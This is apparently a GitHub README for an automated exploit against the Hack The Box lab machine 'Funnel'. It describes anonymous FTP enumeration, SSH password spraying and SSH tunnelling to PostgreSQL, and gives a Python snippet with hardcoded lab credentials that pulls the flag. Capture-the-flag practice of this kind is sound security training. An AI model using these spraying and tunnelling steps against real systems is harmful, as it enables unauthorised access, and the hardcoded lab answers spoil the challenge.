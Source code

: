 ﻿# Funnel Exploit - HTB

## Description

This is an **automated Python exploit** for the Hack The Box machine **"Funnel"**.  
It performs:
- **FTP Enumeration & File Extraction**
- **Username Extraction from Emails**
- **SSH Password Spraying**
- **Port Forwarding via SSH Tunneling**
- **PostgreSQL Exploitation & Flag Extraction**

---

## **Usage**

### 1️⃣ Install Dependencies

Ensure you have the required packages installed:

```bash
pip install paramiko psycopg2 nmap
```

### 2️⃣ Run the Exploit

```bash
python3 funnel_exploit.py
```

---

## **Exploit Details**

1. **Enumerates FTP (Anonymous Access)**
2. **Extracts Usernames & Default Password**
3. **Attempts SSH Login via Password Spraying**
4. **Sets Up SSH Tunnel to Access PostgreSQL**
5. **Queries PostgreSQL for Flag**

---

## **PoC Code Snippet**

```python
import paramiko
import psycopg2
import ftplib
import subprocess

TARGET_IP = "10.129.228.195"
USERNAME = "christine"
PASSWORD = "funnel123#!#"
LOCAL_PORT = 1234
REMOTE_PORT = 5432

def ssh_tunnel():
    subprocess.Popen(f"ssh -L {LOCAL_PORT}:localhost:{REMOTE_PORT} {USERNAME}@{TARGET_IP}", shell=True)

def fetch_flag():
    conn = psycopg2.connect(dbname="secrets", user=USERNAME, password=PASSWORD, host="127.0.0.1", port=LOCAL_PORT)
    cur = conn.cursor()
    cur.execute("SELECT * FROM flag;")
    print("[FLAG]:", cur.fetchone()[0])
    conn.close()
```

---

## **Legal Disclaimer**

> This tool is for **educational purposes only**.  
> Unauthorized use against live systems is strictly prohibited.

---
